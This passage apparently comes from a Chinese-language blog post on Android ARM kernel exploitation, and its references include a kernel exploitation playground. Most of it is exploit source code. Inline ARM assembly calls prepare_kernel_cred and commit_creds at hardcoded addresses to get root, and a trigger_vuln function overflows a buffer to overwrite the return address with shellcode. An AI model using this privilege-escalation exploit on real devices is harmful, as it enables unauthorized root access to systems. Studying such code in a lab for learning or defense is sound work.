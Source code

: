 ```
// -> get root
"LDR     R3, =0xc0039d34\n\t"   //prepare_kernel_cred addr
"MOV     R0, #0\n\t"
"BLX     R3\n\t"
"LDR     R3, =0xc0039834\n\t"   //commit_creds addr
"BLX     R3\n\t"
"mov r3, #0x40000010\n\t"
"MSR    CPSR_c,R3\n\t"
"LDR     R3, =0x879c\n\t"     // payload function addr
"BLX     R3\n\t"
);
void trigger_vuln(int fd)
{
        #define MAX_PAYLOAD (MAX + 2  * sizeof(void*) )
        char buf[MAX_PAYLOAD];
        memset(buf, 'A', sizeof(buf));
        void * pc = buf + MAX +  1 * sizeof(void*);
        printf("shellcdoe addr: %p\n", shellCode);
        printf("payload:%p\n", payload);
        *(void **)pc  = (void *) shellCode;   //ret addr
        /* Kaboom! */
        write(fd, buf, sizeof(buf) );
}
int main(void)
{
        int fd;
        fd = open_file();
        trigger_vuln(fd);
        payload();
        close(fd);
}
```
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512056489982lu7zmzvc.png?imageslim)
参考链接
```
http://www.cnblogs.com/armlinux/archive/2011/03/23/2396833.html

http://blog.sina.com.cn/s/blog_6ac051b2010123cz.html

http://bobao.360.cn/learning/detail/3702.html

https://github.com/Fuzion24/AndroidKernelExploitationPlayground
```



